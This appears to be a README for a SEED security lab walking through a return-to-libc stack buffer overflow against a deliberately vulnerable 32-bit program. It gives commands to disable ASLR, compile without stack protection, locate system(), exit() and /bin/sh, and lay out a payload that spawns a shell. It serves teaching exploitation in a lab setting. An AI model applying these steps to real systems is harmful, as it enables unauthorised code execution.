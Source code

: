 # Lab 2 — Libc-Attack

## Overview

This project implements a classic stack-based buffer overflow to demonstrate a **Return-to-libc (ret2libc)** attack on a 32-bit Linux binary with a non-executable stack (NX bit).

## Prerequisites

- 32-bit Linux VM (lab environment)
- `gcc` with multilib support (if building 32-bit on a 64-bit host)
- Python 3
- GDB (with **peda** or a similar helper is helpful)
- Seed image: https://seedsecuritylabs.org/lab_env.html

---

## Repository files

| File | Description |
|------|-------------|
| `retlib.c` | Vulnerable program with a stack-based buffer overflow. |
| `envaddr.c` | Helper utility to print the address of an environment variable. |
| `exploit.py` | Python script to generate the `badfile` payload. |
| `badfile` | Binary payload file generated by `exploit.py`. |
| `README.md` | This documentation. |
| `images/` | Screenshots of the exploitation process. |

### Image references

![Output of envaddr helper](images/01-envaddr.png)

![Hexdump of badfile payload](images/02-hexdump.png)

---

## Exploitation flow

The attack bypasses the non-executable stack by overwriting the saved return address to point to the `system()` function in `libc`.

**High-level steps:**

1. Disable ASLR (optional for lab reproducibility).
2. Find addresses for `/bin/sh`, `system()`, and `exit()`.
3. Construct a payload that overwrites the saved return address and places arguments for `system()` on the stack.
4. Run the vulnerable program with the crafted payload to spawn a shell.

### Detailed steps

1. **Disable ASLR (for repeatable addresses in this lab)**

   ```bash
   # As root
   echo 0 > /proc/sys/kernel/randomize_va_space
   ```

2. **Set up environment and find target addresses**

   ```bash
   # Make sure /bin/sh is set as an environment variable (used by envaddr)
   export MYSHELL=/bin/sh

   # Compile and run envaddr (see section "How to compile")
   ./envaddr
   # Example output: Address: 0xbfffff01
   ```

   ```gdb
   gdb -q ./retlib
   (gdb) run < badfile
   (gdb) p (void*) system
   (gdb) p (void*) exit
   ```

3. **Construct the payload**

   The `exploit.py` script produces a `badfile` that overflows the vulnerable buffer and overwrites the saved return address.

   **Typical payload layout (32-bit, little-endian):**

   ```
   [ padding up to saved EBP ]
   [ saved EBP (optional placeholder) ]
   [ system_addr (overwritten return address) ]
   [ exit_addr   (next return address, used by system as cleanup) ]
   [ sh_addr     (pointer to "/bin/sh" string) ]
   ```

   This layout ensures that when the function returns it jumps to `system()` with the address of `/bin/sh` as its argument. After `system()` returns, control goes to `exit()`.

4. **Execute the exploit**

   ```bash
   # Generate badfile (after updating exploit.py with discovered addresses)
   python3 exploit.py

   # Run vulnerable program (it reads badfile and triggers overflow)
   ./retlib
   ```

   If successful, `system("/bin/sh")` runs and spawns a shell.

---

## How to compile

1. Compile 32-bit vulnerable binary and helper:

```bash
# Compile retlib as 32-bit disabling stack protector and keeping stack non-executable
gcc -m32 -o retlib retlib.c -fno-stack-protector -z noexecstack

# Compile envaddr helper
gcc -m32 -o envaddr envaddr.c
```
---

##  Disable / re-enable ASLR (for reproducibility)

Disabling ASLR makes addresses repeatable in this lab. Re-enable it after testing.

```bash
# Disable (lab only; requires root)
sudo sysctl -w kernel.randomize_va_space=0

# Re-enable when done
sudo sysctl -w kernel.randomize_va_space=2
```

---

##  `envaddr` usage to get `/bin/sh` address

```bash
export MYSHELL=/bin/sh
./envaddr
# Example output: Address: 0xbfffff01
# Use this value as sh_addr.
```

---

## Example

```bash
export MYSHELL=/bin/sh
./envaddr
# Example: Address: 0xbfffff01

# After updating exploit.py with discovered addresses
python3 exploit.py
hexdump -C badfile | tail
# ... hexdump shows the little-endian addresses for system, exit, and "/bin/sh"

./retlib
# Program prints buffer addresses and, on success, you get a shell
whoami   # -> seed
echo $?  # -> 0
```

---

